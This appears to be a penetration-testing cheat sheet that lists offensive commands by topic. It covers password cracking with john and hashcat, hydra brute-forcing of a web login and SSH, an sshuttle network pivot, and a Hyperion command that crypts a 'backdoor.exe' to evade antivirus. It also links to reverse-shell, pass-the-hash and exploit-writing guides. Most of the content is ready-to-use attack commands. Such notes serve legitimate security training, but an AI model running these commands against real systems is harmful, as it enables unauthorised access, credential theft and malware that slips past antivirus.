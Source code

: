 # Password Attacks
- https://hashkiller.co.uk
```
john hashes.txt
hashcat -m 500 -a 0 -o output.txt –remove hashes.txt /usr/share/wordlists/rockyou.txt
```
```
hydra 10.0.0.1 http-post-form “/admin.php:target=auth&mode=login&user=^USER^&password=^PASS^:invalid” -P /usr/share/wordlists/rockyou.txt -l admin

hydra -l admin -P /usr/share/wordlists/rockyou.txt -o results.txt ssh://10.0.0.1
```

# Tunneling
Tunnels traffic through 10.0.0.1 and makes a route for all traffic destined for 10.10.10.0/24 through your sshuttle tunnel.
```
sshuttle -r root@10.0.0.1 10.10.10.0/24
```

# AV Bypassing
```
root@kali:~/Hyperion-1.0# wine hyperion.exe ../backdoor.exe ../backdoor_mutation.exe
```

# Buffer Overflow
- https://www.sans.org/reading-room/whitepapers/threats/paper/481
* https://github.com/justinsteven/dostackbufferoverflowgood
* Corelan - https://www.corelan.be/index.php/2009/07/19/exploit-writing-tutorial-part-1-stack-based-overflows/
* https://www.corelan.be/index.php/2009/07/19/exploit-writing-tutorial-part-1-stack-based-overflows/
* https://www.corelan.be/index.php/2009/07/23/writing-buffer-overflow-exploits-a-quick-and-basic-tutorial-part-2/
* http://www.opensecuritytraining.info/IntroX86.html
* https://exploit-exercises.com/protostar/

# Exploitation

- https://sploitfun.wordpress.com/2015/06/26/linux-x86-exploit-development-tutorial-series/
* https://pen-testing.sans.org/blog/2012/06/06/escaping-restricted-linux-shells
* https://pen-testing.sans.org/blog/2013/05/06/netcat-without-e-no-problem
* https://highon.coffee/blog/reverse-shell-cheat-sheet/
* http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
* Passing the hash with remote Desktop - https://www.kali.org/penetration-testing/passing-hash-remote-desktop/
* Spawning a TTY (Interactive) Shell - https://netsec.ws/?p=337
* Creating Metasploit Payloads - https://netsec.ws/?p=331
